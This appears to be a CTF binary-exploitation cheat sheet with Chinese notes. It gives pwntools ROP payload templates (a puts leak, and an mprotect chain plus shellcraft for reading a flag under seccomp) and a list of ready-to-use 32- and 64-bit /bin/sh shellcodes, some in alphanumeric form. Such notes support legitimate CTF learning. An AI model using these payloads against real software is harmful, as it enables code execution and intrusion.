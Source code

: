 如果填\x00别用%0c，stack随机化，如用环境变量，要先泄露

### payload方便写法

```
payload = b''.join([
    PUZZLE_SOL.encode(),
    b'X' * 36,
    p64(pop_rdi),
    p64(exe.got['puts']),
    p64(exe.plt['puts']),
    p64(main)
])
```

### sandbox

```
seccomp-tools dump ./pwn
```

```
payload = flat(
    p64(pop_rdi), p64(bss - 0xb0),
    p64(pop_rsi), p64(0x1000), #注意对齐
    p64(pop_rdx), p64(7),
    p64(mprotect),
    p64(bss + 0x40)
)
payload += asm(shellcraft.cat('./flag'))
payload = payload.ljust(0xb0, b'\x00')
```

### shellcode

```
code=asm(
    """
    pop rdi
    mov rsp,rdi
    loop:
    jmp loop
    """
)
buf="123"
code+=asm(shellcraft.write(1,buf,3))
```

```
# 32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

# 32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

# 32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

# 64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

# 64位 较短的shellcode  23字节(用了一次，不太行？)
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

# 64位 纯ascii字符shellcode
```